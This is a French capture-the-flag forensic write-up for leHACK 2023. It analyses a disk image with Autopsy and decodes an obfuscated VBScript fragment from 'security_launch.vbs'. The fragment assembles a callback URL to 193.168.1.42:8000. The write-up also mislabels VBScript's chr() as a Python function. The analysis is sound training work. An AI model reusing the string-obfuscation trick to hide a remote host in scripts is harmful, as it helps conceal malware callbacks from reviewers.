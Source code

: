 ```yaml
---
title: suspicious_ntfs_drive
categories: [leHACK_2023, Forensic]
tags: [Autopsy, image_file]
image: '/assets/images/leHACK_2023/leHACK.jpg'
---
```


## 𝄞 Introduction

![Intro](/assets/images/leHACK_2023/forensic/intro.png)

## 𝄞 Solution

Pour résoudre ce défi de forensic, j'ai commencé par analyser l'image avec le logiciel **Autopsy**.
Notre objectif était de trouver les informations suivantes : **filename.vbs_IP_port** pour trouver le flag.

![Autopsy](/assets/images/leHACK_2023/forensic/vbs.png)

Nous avons trouvé un fichier nommé **security_launch.vbs**.

```
aaa = replace("hello","h","w")
bbb = StrReverse("86")
ccc = Right("90018000",4)
dest = "http://"+chr(49)+"93.1"+bbb+".1.42:"+ccc+"/dothethingzuulee"
```

## 𝄞𝄞 Analyse

Nous allons analyser chaque ligne :

**aaa = replace("hello","h","w")** --> remplace le *h* par *w* dans le chaine **hello** ce qui donne **wello**.   
**bbb = StrReverse("86")** --> on **reverse** *86* ce qui donne *68*  
**ccc = Right("90018000",4)** --> on prends les 4 caractères à droite => 8000  
**dest = "http://"+chr(49)+"93.1"+bbb+".1.42:"+ccc+"/dothethingzuulee"**  
**chr()** est une fonction python qui convertie la valeur en ASCII ici 49 = 1

donc si on remplace nos valeurs on obtien : 193.168.1.42:8000

𝄞 FLAG : `leHACK{security_launch.vbs_193.168.1.42_8000}` 𝄞 

## 𝄞 Conclusion








